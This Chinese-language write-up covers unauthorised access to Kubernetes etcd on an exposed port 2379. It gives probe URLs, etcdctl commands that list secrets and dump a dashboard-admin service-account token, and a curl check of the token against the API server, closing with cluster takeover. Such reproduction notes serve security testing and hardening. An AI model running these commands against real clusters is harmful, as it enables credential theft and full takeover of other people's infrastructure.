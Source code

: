 # K8s etcd未授权访问

## 漏洞描述

etcd 是云原生架构中重要的基础组件。etcd 在微服务和 Kubernates 集群中不仅可以作为服务注册于发现，还可以作为 key-value 存储的中间件，为 k8s 集群提供底层数据存储，保存了整个集群的状态。

在 K8s 集群初始化后，etcd 默认就以 pod 的形式存在，可以执行如下命令进行查看，etcd 组件监听的端口为 2379，并且对外开放。

```
kubectl get pods -A | grep etcd
```

在 etcd 的配置文件 /etc/kubernetes/manifests/etcd.yaml 中，--client-cert-auth 默认为 true，这意味着访问 etcd 服务需要携带 cert 进行认证。

如果目标在启动 etcd 的时候没有开启证书认证选项，且 2379 端口直接对外开放的话，则存在 etcd 未授权访问漏洞。

etcdctl 下载地址：https://github.com/etcd-io/etcd

## 漏洞复现

### 查看是否存在未授权访问

访问以下链接，查看是否存在未授权访问。

```
https://your-ip:2379/version
-------------
返回如下则存在未授权访问：
{etcdserver: "3.4.3", etcdcluster: "3.4.0"} 
```

```
https://your-ip:2379/v2/keys
-------------
返回如下则存在未授权访问：
{"action":"get","node":{"dir":true,"nodes":...}}
```

### 查找 Token 接管集群

由于 Service Account 关联了一套凭证，存储在 Secret 中。因此我们可以过滤 Secret，查找具有高权限的 Secret，然后获得其 token 接管 K8s 集群。

```
#查找所有的 secret
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get / --prefix --keys-only|sort|uniq| grep secret
```

以 `/registry/secrets/kube-system/dashboard-admin-token-c7spp` 为例，查看指定 secret 保存的证书和 token：

```
#查找指定 secret 保存的证书和 token
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get /registry/secrets/kube-system/dashboard-admin-token-c7spp
```

最终的 token 为 `token?` 和 `\#kubernetes.io/service-account-token` 之间的部分。可以使用 curl 验证 token 的有效性：

```
curl --header "Authorization: Token" -X GET https://your-ip:6443/api -k
```

然后，就可以使用 token 登录 dashboard 或者远程命令管理 K8s。